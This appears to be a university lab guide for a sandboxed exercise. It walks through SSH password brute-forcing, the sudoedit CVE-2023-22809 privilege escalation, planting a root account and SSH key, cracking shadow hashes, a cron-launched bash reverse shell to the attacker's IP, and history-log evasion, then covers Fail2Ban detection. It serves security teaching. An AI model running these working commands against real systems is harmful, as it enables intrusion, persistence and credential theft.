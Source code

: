 # PB177 – Persistence, privilege escalation, defense evasion, credential access

[[_TOC_]]

## Learning objectives

At the end of this lab session, you will be able to:
- run brute-force attack on SSH password-based authentication,
- escalate privileges of a user at a target host using one particular vulnerability,
- change the target system to keep access to it after the password change,
- apply techniques of defense evasion,
- steal the superuser password from the target, 
- detect the particular exploit and mitigate the vulnerability and other malicious actions after the privilege escalation.

<details>
<summary>What is persistence?</summary> 

Techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.\
See [MITRE ATT&CK® Matrix for Enterprise](https://attack.mitre.org/tactics/TA0003/) for more info.

</details>

<details>
<summary>What is privilege escalation?</summary> 

Techniques that adversaries use to gain higher-level permissions on a system or network.\
See [MITRE ATT&CK® Matrix for Enterprise](https://attack.mitre.org/tactics/TA0004/) for more info.

</details>

<details>
<summary>What is defense evasion?</summary> 

Techniques that adversaries use to avoid detection throughout their compromise.\
See [MITRE ATT&CK® Matrix for Enterprise](https://attack.mitre.org/tactics/TA0005/) for more info.

</details>

<details>
<summary>What is credential access?</summary> 

Techniques for stealing credentials like account names and passwords.\
See [MITRE ATT&CK® Matrix for Enterprise](https://attack.mitre.org/tactics/TA0006/) for more info.

</details>

## Start the sandbox

1. Update the repo by running `git pull` in `labs` directory. Go to `3` directory.
1. Login to get access to Podman images: `podman login gitlab.fi.muni.cz:5050`.
1. **Run `podman-compose pull` to download images used in this lab.**
1. Run `podman-compose up -d`.
1. [Check you can access Kali container using terminal and RDP](../1/index.md#start-the-sandbox). This lab uses two containers, `podman-compose ps -q | wc -l` should display `2`.

## Attack

### Task: Brute Force: Password Guessing

[T1110.001](https://attack.mitre.org/techniques/T1110/001/)

Your target is a host with IP 10.0.33.110.\
Use `ncrack`, `medusa`, or `hydra` at `attacker` to guess password for authentication of user `test` via SSH.

Hints
  * Check the content of `/usr/share/seclists/` directory at `attacker`.
  * Use `probable-v2-top12000.txt` wordlist.
  * The password is a meaningful word consisting of 4 English small letters. Filter out all other passwords and use a shortened wordlist.
  * If the password is not guessed within a minute, terminate the tool and use another filter for shortening the wordlist.

<details>

<summary>
Solution
</summary>

  * Filter out passwords: `grep -h -E '^[a-z]{4}$' /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt > wordlist.txt`
  * `ncrack -v --user test -P wordlist.txt 10.0.33.110:22`
  * `medusa -h 10.0.33.110 -u test -P wordlist.txt -M ssh`
  * `hydra -l test -P wordlist.txt ssh://10.0.33.110`
  * If you used only one of these three tools, try the others to see how their features, output, and speed differ. 

</details>

### Task: Exploitation for Privilege Escalation

[T1068](https://attack.mitre.org/techniques/T1068/)

Once you are logged in to the target via SSH, escalate privileges of the user `test`, i. e., get root access, which enables changing host configuration.

Start with exploring the system.

<details>
<summary>Exploring</summary>

Read the [message of the day](https://en.wikipedia.org/wiki/Message_of_the_day) (MOTD) thoroughly.

What operating system and version is running at the target?

Is there any other information attracting your attention?

All this information can be gathered manually from configuration files and utilities, however we will try an automated tool, [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS). Find a way to run it on the target machine. While the tools output is rather long, it is nicely structured so you can smoothly find what you are looking for.

<details>
<summary>
Solution
</summary>

* Operating system: `Ubuntu 22.04.5 LTS`
* `This system has been minimized by removing packages and content that are not required on a system that users do not log into.` &ndash; typical for containers.
* `To change the DNS resolver, run 'sudoedit /etc/resolv.conf' and edit value of 'nameserver'` &ndash; non-privileged users are usually not permitted to edit system configuration files, such as `/etc/resolv.conf`. This user got an exemption and can edit the DNS resolver.

</details>
</details>
</br>

Next, we need to find a target to exploit. Focus on the _"Files with interesting permissions"_ chapter of the **LinPEAS** output.

<details>
<summary>Finding a vulnerability</summary>

The output of LinPEAS clearly states that you should `check if the sudo version is vulnerable`. This is further empowered by the information in the MOTD. 

Search for known vulnerabilities of `sudo` matching the version used at the target. Use [NVD](https://nvd.nist.gov/vuln/search) and **advanced** search of vulnerability database. Use **CPE** search fields. CPE is [a structured naming scheme](https://csrc.nist.gov/projects/security-content-automation-protocol/specifications/cpe) for information technology systems, software, and packages.

Which known vulnerability might apply to our target? 

<details>
<summary>
Solution
</summary>

* `sudo -V` tells version `1.9.9`
* [Search results for advanced search using CPE](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&results_type=overview&search_type=all&isCpeNameSearch=false&cpe_vendor=cpe%3A%2F%3Asudo_project&cpe_product=cpe%3A%2F%3Asudo_project%3Asudo&cpe_version=cpe%3A%2F%3Asudo_project%3Asudo%3A1.9.9) yields 6 records.
* Description of [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) contains `sudoedit`, which is mentioned in the MOTD.

</details>
</details>
<br/>

Study the selected vulnerability and exploit it at the target to edit `/etc/passwd` file ([man pages](https://man7.org/linux/man-pages/man5/passwd.5.html)), which can be edited only by the superuser (root).

<details>
<summary>
Solution
</summary>

* `sudoedit /etc/resolv.conf` is legitimate command for editing the particular file. This is set in `/etc/sudoers` config file (not readable by non-privileged user).
* The vulnerability can be exploited by setting `EDITOR` variable. The CVE description says "The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism".
* Exploit: `EDITOR='vim -- /etc/passwd' sudoedit /etc/resolv.conf`
* It runs `vim` with 2 files for editing. The first one is `/etc/passwd`. When you quit editing using `:q`. `vim` displays "1 more file to edit" and opens `/etc/passwd` again for editing. Quit `vim` again.
* To sum it up, using the exploit, you can edit **any existing file as `root`**, not only `/etc/resolv.conf` specified in `/etc/sudoers`. Note you can **not run** programs as `root`.

</details>

### Task: Create Account: Local Account

[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

Run the exploit again and add a new superuser account `admin` to `/etc/passwd`.

Hint: use `openssl` or [online Crypt() Hashing Function](https://www.dcode.fr/crypt-hashing-function) to generate a hash of a new password.

<details>
<summary>
Solution and follow-up task
</summary>

* Prepare a hash of a new password for the new account using `openssl passwd verysecurepassword`. Is it better to run the command at the target or `attacker`? Why?
* Run the exploit: `EDITOR='vim -- /etc/passwd' sudoedit /etc/resolv.conf`
* Edit `/etc/passwd` and add a new line for user `admin`: `admin:$1$oIPLZTIa$7JF0pA5ea47LlyVUyc.jT/:0:0:root:/root:/bin/bash`
* Save the edited file by `:x` and quit `vim`.
* Check the newly created account by `su admin` and typing the created password (`verysecurepassword`). You should get `root` shell: `root@server:/home/test#`

</details>

Try to connect to the target using a newly created account via SSH from `attacker`. Why does it fail?

<details>
<summary>
Solution and follow-up tasks
</summary>

* Although the correct password is entered, there is another mechanism preventing remote access to privileged accounts, namely `admin` and `root` at the target.
* The SSH server is configured so.
* Change the configuration to permit root login. Do not forget to restart the SSH service to apply the change.
* Try to connect from `attacker` via SSH as `root` to check your configuration changes were successfully applied. Connecting as `admin` fails because the SSH server needs the password hash in `/etc/shadow`, not only in `/etc/passwd`. If you still cannot log in, edit `/etc/pam.d/sshd`, uncomment the following line: `# session    required     pam_loginuid.so`, and restart the SSH service.

* Another option is to leverage an existing legitimate account (`test`) for remote access and switch to a superuser account (`admin` or `root`). 
* However, if the user `test` changes their password, the remote access is lost.

</details>

### Task: Account Manipulation: SSH Authorized Keys

[T1098.004](https://attack.mitre.org/techniques/T1098/004/)

Strengthen your persistence at the target and add your SSH public key to `~/.ssh/authorized_keys` of user `test`.

<details>
<summary>
Solution
</summary>

* Use `ssh-keygen` utility to generate a key pair.
* Add the **public** key to `/home/test/.ssh/authorized_keys` to the target. Create the file if necessary.
* Use the **private** key to authorize when connecting from `attacker`: `ssh -i <private_key> test@10.0.33.110`

</details>

### Task: OS Credential Dumping: /etc/passwd and /etc/shadow and Brute Force: Password Cracking

[T1003.008](https://attack.mitre.org/techniques/T1003/008/) and [T1110.002](https://attack.mitre.org/techniques/T1110/002/)

Get the hash of a `root` password and crack it to get another credential.\
It might be helpful once other credentials are changed, or when authenticating to other hosts or services where the same password is used.

> There are two famous tools for cracking passwords, however the hashing algorithm used is not supported by [`hashcat`](https://hashcat.net/hashcat/).

<details>
<summary>
Solution
</summary>

* Use [John the Ripper](https://www.openwall.com/john/) password cracker.
* John needs only the hash part of the `/etc/shadow` entry. Copy it out or use the `unshadow` utility, which combines content of `/etc/passwd` and `/etc/shadow`: `unshadow passwd shadow > mypasswd`
* Run John: `john --format=crypt mypasswd`
* What host would you use to run John and why?

</details>

### Task: Scheduled Task/Job: Cron

[T1053.003](https://attack.mitre.org/techniques/T1053/003/)

Finally, set a scheduled task, which will start every minute a reverse shell using BASH to `attacker`.\
Check the shell by running any command from `attacker`.
You can use [these](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) materials to learn more about reverse shells.

<details>
<summary>
Solution
</summary>

* Use Cron.
* Edit Cron config file by `crontab -e`.
* Add the following line: `* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.0.0.2/6666 0>&1'`
  * Five asterisks set that the subsequent command will be run every minute.
  * Reverse shell itself is `/bin/bash -i >& /dev/tcp/10.0.0.2/6666 0>&1`.
  * `/dev/tcp/10.0.0.2/6666` specifies IP address and port where both input and output will be forwarded. It is the IP of `attacker`.
  * Cron does not allow running interactive commands directly, so `/bin/bash -c` must be used to execute the reverse shell.
* Save the file. You should see `crontab: installing new crontab`.
* Start listening at `attacker` at the port used in the `bash` command above (6666): `nc -l -p 6666`.
* Wait for the shell being executed by `cron` at the target every minute. You will see a shell prompt: `root@server:~#`.
* Execute any command.

</details>

### Task: Impair Defenses: Impair Command History Logging

[T1562.003](https://attack.mitre.org/techniques/T1562/003/)

View command history files of all users you have been logged in (`test`, `admin`, `root`) at the target.\
Set the history control environment variable so that commands that start with a space will not be logged.\
Check the settings are applied correctly by typing `echo 1` and then ` echo 2`. What is this good for?

<details>
<summary>
Solution
</summary>

* Run `history` to see the command history of the logged user.
* Run `HISTCONTROL=ignorespace` to set the history control environment variable.
* Run `echo 1`.
* View history using `history`. You should see `echo 1` in the second last line.
* Run ` echo 2` and view history again. You should **not** see ` echo 2`, only `history` twice.

</details>

### Task: Indicator Removal: Clear Linux or Mac System Logs

[T1070.002](https://attack.mitre.org/techniques/T1070/002/)

Locate system logs and search authentication logs for your successful and unsuccessful login attempts from the brute-force attack on password-based authentication and subsequent remote access using users `test`, `root`, and `admin`.

Can you find logs showing the execution of Cron tasks?

All these entries are crucial for intrusion detection and post-mortem investigation. Attackers may delete them to make it difficult for defenders.

Do not delete any log files or lines in the files. We will need them for further tasks.

<details>
<summary>
Solution
</summary>

* Logs are located in `/var/log` directory, authentication logs in `/var/log/auth.log` and Cron logs in `/var/log/syslog`.
* Search for `Failed` and `Accepted` in `auth.log` to list SSH authentication events.
* Search for `CRON` in `syslog`.

</details>

## Detection and mitigation

Now work at `server` and detect the attack and secure the system.

### Fail2ban

Install and setup [Fail2Ban](https://github.com/fail2ban/fail2ban/wiki) to detect and prevent brute-force attacks at SSH.

<details>
<summary>
Solution
</summary>

* Install Fail2Ban at `server` under `root`: `apt install fail2ban`.
* Set `logfile` for the `sshd` service to `/var/log/auth.log` in `/etc/fail2ban/jail.d/defaults-debian.conf `, i. e. add this line to the end of the file: `logfile = /var/log/auth.log`                      
* Start Fail2Ban: `service fail2ban start`. You should see `[OK]` at right.
* Check the status of the `sshd` jail: `fail2ban-client status sshd`.

</details>

Run the brute-force attack from `attacker` again and check the status of the `sshd` jail at `server`.\
List `iptables` rules at `server` and find a rule implementing the ban.

<details>
<summary>
Solution
</summary>

* `fail2ban-client status sshd` shows `Actions` and `Banned IP list:`.
* `iptables -L` shows that the INPUT chain contains target `f2b-sshd` for SSH traffic.\
`f2b-sshd` chain contains a line with the REJECT target for the source adress of `attacker`.
* Search for the `Ban` event in the Fail2Ban logs in `/var/log/fail2ban.log`.
* Try to connect from attacker to server using SSH.
  * You will get `ssh: connect to host 10.0.33.110 port 22: Connection refused` if the ban is still active.
  * You can connect if the IP has been unbanned. Check `/var/log/fail2ban.log`.
  * Why do you think banning IPs only for a limited time is a good idea?

</details>

### Searching in system logs

Use `grep` to search for the execution of the `sudo` exploit.

<details>
<summary>
Solution
</summary>
<br/>

`grep sudo /var/log/syslog`

</details>

## End of the lab

If you finish all tasks, stop the sandbox using `podman-compose down`.
